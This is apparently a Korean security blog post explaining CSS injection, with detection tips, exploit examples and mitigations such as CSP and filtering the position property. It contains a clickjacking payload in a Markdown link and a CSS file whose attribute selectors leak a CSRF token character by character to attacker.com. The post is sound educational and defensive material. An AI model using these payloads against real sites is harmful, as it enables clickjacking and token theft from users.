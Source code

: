 ```yaml
---
layout: post
title: CSS Injection
subtitle: Style 속성 및 태그를 활용한 공격
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Style
  - CSS
  - Clickjacking
  - KeyLogging
  - WEB
sidebar:
---
```

## Intro
CSS Injection은 사용자가 `<style>` 태그 혹은 style 속성을 임의로 삽입할 수 있을 때 나타나는 취약점입니다.   

해당 취약점은 그 자체 위험도는 크지 않다고 생각하지만, User Interaction이 필요한 취약점을 쉽게 트리거 되도록 만들 수 있습니다.   

주로 `<a>` 태그에 사용하여 ***사용자의 클릭을 하이제킹***하는 Payload를 사용합니다. 혹은 `<style>`, `<link>` 태그가 삽입이 가능할 시 .css 파일을 불러올 수 있어 이 때는 ***Keylogging 혹은 CSRF 토큰 탈취*** 용도로 Payload를 작성할 수 있습니다.
## Detect & Exploit 
### Detect
탐지 방법의 경우 XSS와 유사합니다.   
`<style>` 태그 및 style 속성을 임의로 삽입할 수 있는 지 여부를 살피면 됩니다.
### Exploit
> 🕶️ Clickjacking 목적이라면 부모 태그를 벗어나 페이지 어디에나 위치시킬 수 있는 `position` 속성이 가장 중요합니다. 

```Markdown
# In Markdown
[Clickjacking](https://attack.com"style="position:fixed;top:0;left:0;width:100vw;height:100vh;background-color:transparent;z-index:9999;)

# In Custom Color Setting
bgColor=#ffffff%3B%20position:fixed%3B...[위와 동일]
```

```
# In Tag
<style>@import ("https://attacker.com/POC.css")</style>

# POC.css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

## Security Measures
가장 좋은 방법은 사용자가 임의로 `<style>` 태그 및 속성을 삽입할 수 없도록 조치하는 것입니다.   
서비스 특성 상 해당 조치 방법이 어려울 경우 CSP 정책을 통해 외부 링크에서 .css 파일을 가져오지 못하도록 하고, `position` 속성 등을 필터링 하여 악성 링크가 담긴 태그가 페이지 내 자유롭게 위치할 수 없도록 해야 합니다.
## References
[Better Exfiltration via HTML Injection](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b)
[CSS Injection](https://book.hacktricks.xyz/kr/pentesting-web/xs-search/css-injection)